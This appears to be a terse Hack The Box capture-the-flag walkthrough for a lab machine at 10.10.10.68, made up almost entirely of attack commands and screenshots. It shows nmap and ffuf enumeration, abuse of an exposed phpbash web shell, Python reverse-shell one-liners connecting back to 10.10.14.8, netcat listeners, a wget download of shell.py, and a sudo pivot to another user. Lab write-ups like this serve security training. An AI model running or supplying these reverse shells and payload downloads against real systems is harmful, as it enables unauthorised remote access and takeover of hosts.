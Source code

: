 ```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://10.10.10.68/FUZZ -fc 403 -e .aspx,.php,.txt,.html
/dev/phpbash.php
reverse shell - python
python3 -c "import pty;pty.spawn('/bin/bash')"
sudo -l
sudo -u scriptmanager bash -i
python -c shell.py
```


```
nmap -sS -sC -sV -T5 -Pn 10.10.10.68
```
![image](https://github.com/regarmulia/HTB/assets/33616880/bc9cd0fd-fd2e-45f4-9c77-be705cc2acd2)

![image](https://user-images.githubusercontent.com/33616880/231078885-d693a7c8-64c3-4d4d-8792-30f38a714312.png)


```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://10.10.10.68/FUZZ -fw 22 -e .aspx,.php,.txt,.html,.sh
```
![image](https://github.com/regarmulia/HTB/assets/33616880/1aa722cc-5bca-43a1-b614-880a38a27f10)


![image](https://user-images.githubusercontent.com/33616880/231079195-c3821e9c-f4e0-45b6-944d-696a708a6df7.png)


https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/linux


```
nc -nlvp 1234
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.8",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
![image](https://user-images.githubusercontent.com/33616880/231055113-1d7b8689-2d39-468a-bf6d-6c5f0a63926c.png)
![image](https://user-images.githubusercontent.com/33616880/231055372-e58304c2-36da-4de5-a9a3-76599f6bf2a9.png)


```
sudo -l
```
```
python3 -c "import pty;pty.spawn('/bin/bash')"
```
```
sudo -u scriptmanager bash -i
```
![image](https://user-images.githubusercontent.com/33616880/231083178-a2ff7d4c-fbbf-4701-885e-399f0a2bd732.png)
![image](https://user-images.githubusercontent.com/33616880/231083338-54eabf9e-3306-488f-800c-b2ac046a8175.png)

```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.8",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```
```
wget 10.10.14.8/shell.py
```
```
nc -nlvp 4444
python -c shell.py
```
```
python3 -c "import pty;pty.spawn('/bin/bash')"
```
![image](https://user-images.githubusercontent.com/33616880/231084808-1b28d08b-1c89-46bd-9d76-3770e62233fc.png)
![image](https://user-images.githubusercontent.com/33616880/231085786-4b06a14b-e3d7-4406-98b4-ab4f676953d9.png)
